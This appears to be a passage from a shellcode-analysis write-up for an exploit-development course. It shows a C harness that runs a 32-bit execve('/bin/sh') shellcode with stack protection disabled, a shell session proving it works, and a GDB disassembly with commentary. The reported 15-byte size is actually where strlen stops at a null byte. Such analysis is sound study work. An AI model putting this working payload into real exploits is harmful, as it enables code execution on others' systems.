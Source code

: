 ```c
/**
* Filename: exec_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Spawn a shell on the local host  
* Compilation: gcc -fno-stack-protector -z execstack -m32 exec_shellcode.c -o exec  
* Usage: ./exec
* Shellcode size: 15 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";

int main()
{
        printf("Shellcode length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

As a POC, the C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 15 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -zexecstack exec_shellcode.c -o exec
osboxes@osboxes:~/Downloads/SLAE$ ./exec 
Shellcode length:  15
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```

The GDB (GNU Debugger) tool is used to step through the program code and analyze the system calls:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gdb ./exec --quiet
Reading symbols from /home/osboxes/Downloads/SLAE/exec...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *&code
Breakpoint 1 at 0x804a040
(gdb) run
Starting program: /home/osboxes/Downloads/SLAE/exec 
Shellcode length:  15

Breakpoint 1, 0x0804a040 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	 push   0xb                        ; push 0xb (11) onto the stack         
   0x0804a042 <+2>:	 pop    eax                        ; pop 0xb into eax
   0x0804a043 <+3>:	 cdq                               ; set edx to 0
   0x0804a044 <+4>:	 push   edx                        ; push 0 onto the stack
   0x0804a045 <+5>:	 pushw  0x632d                     ; push -c argument onto the stack
   0x0804a049 <+9>:	 mov    edi,esp                    ; move stack pointer into edi
   0x0804a04b <+11>: push   0x68732f                       ; push hs/ onto the stack (/bin/sh in reverse order)
   0x0804a050 <+16>: push   0x6e69622f                     ; push nib/ onto the stack (/bin/sh in reverse order)
   0x0804a055 <+21>: mov    ebx,esp                        ; move stack pointer into ebx
   0x0804a057 <+23>: push   edx                            ; push 0 onto the stack
```